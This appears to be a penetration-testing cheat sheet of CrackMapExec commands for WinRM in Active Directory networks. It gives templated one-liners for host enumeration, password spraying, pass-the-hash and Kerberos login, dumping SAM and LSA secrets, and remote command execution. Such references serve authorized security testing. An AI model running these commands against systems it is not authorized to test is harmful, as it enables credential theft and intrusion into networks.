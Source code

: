 # cme (WINRM)

% cme, crackmapexec, Active directory, nxc, netexec, winrm

## Enumerate WinRM reachable hosts
#assessment/AD #attack_type/Enumeration #port/5985 #port/5986 #protocol/winrm #access/Anonymous

Enumerate network hosts that can be reached via WinRM.

```bash
cme winrm <ip>
```

## Password spray (username=password)
#assessment/AD #attack_type/Bruteforce #port/5985 #port/5986 #protocol/winrm #access/Anonymous

Password spray to find accounts with weak passwords.

```bash
cme winrm <ip> -u <users.list> -p <users.list> --no-bruteforce --continue-on-success
```

## WinRM auth
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/WinRM_user 

Authenticate via a WinRM account on the remote target.

```bash
cme winrm <ip> -u <user> -p <password>
```

## Domain auth
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Domain_user 

Authenticate via a domain account on the remote target.

```bash
cme winrm <ip> -u <user> -p <password> -d <domain>
```

## Domain auth with hash
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Domain_user 

```bash
cme winrm <ip> -u <user> -H <hash> -d <domain>
```

## Local auth
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Local_user

Authenticate via a local account on the remote target.

```bash
cme winrm <ip> -u <user> -p <password> --local-auth
```

## Local auth with hash
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Local_user

Authenticate via a local account using the hash on the remote target.

```bash
cme winrm <ip> -u <user> -H <hash> --local-auth
```

## Kerberos auth
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Local_user

Authenticate via Kerberos on the remote target.

```bash
cme winrm <ip> -u <user> -p <password> -k
```

## Kerberos TGT auth
#assessment/AD #attack_type/Authentication #port/5985 #port/5986 #protocol/winrm #access/Local_user

Authenticate via a Kerberos TGT on the remote target.

Previously import ticket : 
export KRB5CCNAME=ticket.ccache

```bash
cme winrm <ip> -u <user> -k --use-kcache
```

## Dump SAM
#assessment/AD #attack_type/Dump #port/5985 #port/5986 #protocol/winrm #access/Admin

Dump SAM hashes using methods from secretsdump.py

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme winrm <ip> -u <user> -p <password> --sam
```

## Dump LSA
#assessment/AD #attack_type/Dump #port/5985 #port/5986 #protocol/winrm #access/Admin

Dump LSA secrets.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme winrm <ip> -u <user> -p <password> --lsa
```

## Execute remote commands (CMD)
#assessment/AD #attack_type/Command_Execution #port/5985 #port/5986 #protocol/winrm #access/Domain_user

Execute remote commands through Windows CMD.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme winrm <ip> -u <user> -p <password> -x <command>
```

## Execute remote commands (PowerShell)
#assessment/AD #attack_type/Command_Execution #port/5985 #port/5986 #protocol/winrm #access/Domain_user

Execute remote commands through Windows PowerShell.

```bash
cme winrm <ip> -u <user> -p <password> -X <command>
```

= ip: 192.168.1.0/24
= dc-ip: $DC_IP
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
